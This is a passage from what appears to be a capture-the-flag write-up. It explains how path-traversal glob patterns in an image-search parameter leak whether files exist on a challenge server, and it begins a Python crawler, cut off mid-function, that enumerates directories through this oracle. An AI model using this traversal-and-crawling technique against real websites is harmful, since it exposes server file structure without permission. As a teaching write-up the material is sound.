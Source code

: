 We get lots of HTML comments, but no images are shown.

If we search for `"../../a*"`, we get:

```html
<div class="card-columns">
      <!-- show image -->
            <!-- end show image -->
      <!-- show image -->
            <!-- end show image -->
      <!-- show image -->
            <!-- end show image -->
      <!-- show image -->
            <!-- end show image -->
</div>
```

We have several HTML comments, but no images are shown.

But if we search for `"../../q*"`, we get:

```html
<div class="container-fluid">
   <div class="card-columns">
   </div>
   <p>No images found.</p>
</div>
```

The application explicitly states that no images were found.

So it seems like there are different cases which result in no images being shown. Our theory is that:

* If the glob pattern matches **any** file, the HTML comments will be part of the output
  * If the glob pattern matches an image file, it will be shown wrapped within the comments
  * Otherwise, just the comments will be outputted but no images will be shown
* If the glob pattern doesn't match any files, the output will state that no images were found


This means that we can build a basic crawler to crawl the directory structure:

```python
from urllib.parse import quote
from pwn import *
import requests
import argparse
import string

ALPHABET = [quote(c) for c in (set(string.ascii_letters + string.digits + string.punctuation) - set("/?*\\,"))]
BASE_URL = "http://art.shieldchallenges.com"


def _path_exists(path):
    r = requests.get(f'{BASE_URL}/?search={path}')
    return "<!-- show image -->" in r.text

def _is_visible(path):
    r = requests.get(f'{BASE_URL}/{path}')
    return r.status_code in [200, 403]


def _crawl(prefix, suffix, relative_path):
    try:
        current = ""
        with log.progress(f'Crawling "{relative_path}" with prefix = "{prefix}", suffix = "{suffix}"') as p:
            paths = [""]
```